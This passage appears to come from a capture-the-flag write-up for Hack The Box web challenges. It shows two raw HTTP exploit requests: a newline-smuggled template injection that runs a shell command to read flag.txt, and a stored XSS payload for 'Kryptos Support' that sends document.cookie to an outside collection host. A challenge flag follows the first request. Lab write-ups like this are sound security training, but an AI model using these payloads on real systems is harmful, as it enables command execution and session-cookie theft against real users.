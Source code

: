 
![image](https://hackmd.io/_uploads/HkeSzGOdC.png)

```
POST / HTTP/1.1
Host: 94.237.53.113:50183
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 41
Origin: http://94.237.53.113:50183
Connection: close
Referer: http://94.237.53.113:50183/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

neon=1111%0a<%25%3d+`cat%20flag.txt`+%25>
```

flag: `HTB{r3pl4c3m3n7_s3cur1ty}`


## Kryptos Support

```

POST /api/tickets/add HTTP/1.1
Host: 94.237.58.3:54574
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.58.3:54574/
Content-Type: application/json
Content-Length: 91
Origin: http://94.237.58.3:54574
Connection: close
Priority: u=0

{"message":"<script>fetch('http://luhlr27z.requestrepo.com?a='+document.cookie);</script>"}
```


![image](https://hackmd.io/_uploads/rkDeuXO_R.png)
![image](https://hackmd.io/_uploads/SkCP_XuuR.png)

![image](https://hackmd.io/_uploads/S1XzYmdO0.png)


![image](https://hackmd.io/_uploads/HyzVYm_OA.png)
